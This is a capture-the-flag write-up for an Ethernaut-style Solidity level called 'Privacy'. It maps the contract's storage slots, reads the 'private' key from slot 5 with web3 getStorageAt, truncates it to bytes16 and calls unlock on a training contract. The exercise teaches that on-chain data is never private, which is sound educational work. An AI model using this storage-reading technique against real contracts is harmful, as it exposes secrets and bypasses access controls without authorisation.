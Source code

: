 # 12. Privacy
<sup>Difficulty 8/10</sup>

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.

## Solution

We have to unlock the contract. Unlock condition: `require(_key == bytes16(data[2]));`.
Data is declared as `bytes32[3] private data;`.
As per the previous challenge, we read data from the block since **nothing on the chain is really private**.

How do we get the correct variable index?

As [solidity documentation](https://docs.soliditylang.org/en/v0.8.14/internals/layout_in_storage.html) state:

> State variables of contracts are stored in storage in a compact way such that multiple values sometimes use the same storage slot. Except for dynamically-sized arrays and mappings (see below), data is stored contiguously item after item starting with the first state variable, which is stored in slot 0. For each variable, a size in bytes is determined according to its type. Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible, according to the following rules: [omitted]

This means that we can reconstruct `Privacy` contract variables like this:

```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
bytes32[3] private data;
```

| Index | Variables                             | Notes                                                                        |
|:------|:--------------------------------------|:-----------------------------------------------------------------------------|
| 0     | locked                                | It takes the full slot since cannot be pack with the following variable      |
| 1     | ID                                    | This takes the whole 32 bytes space                                          |
| 2     | flattening, denomination, awkwardness | These variables are packed since their cumulative size is less than 32 bytes |
| 3     | data[0]                               | 32 bytes                                                                     |
| 4     | data[1]                               | 32 bytes                                                                     |
| 5     | data[2]                               | 32 bytes -> our juicy data                                                   |

**[!] NOTES: THE VARIABLE DECLARATION ORDER MATTERS!!!**


Now that we now that our key `data[2]` is in the 5th slot, we can retrieve it:

```javascript
const data3 = await web3.eth.getStorageAt('0x9B936DD5E73532322f90C6Ed54d350D87AAf823b', 5)
// '0x53e6e6a1c996fd75204ee4d098ea1b37f1f04873adb637795bc4101e6da67023'
```

We got a `bytes32` string. To cast it to a `bytes16` we take the 64 char length string, without the leading `0x`, and get the first part (the first 32 characters)

```javascript
const dataString = data3.slice(2)  // remove trailing 0x
dataString.length
// -> 64
const key = dataString.substr(0, 32)
key.length
// -> 32
```

Finally unlock the contract: 

```javascript
await contract.locked()
// -> true
await contract.unlock(key)
await contract.locked()
// -> false
```

## OZ Corner

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
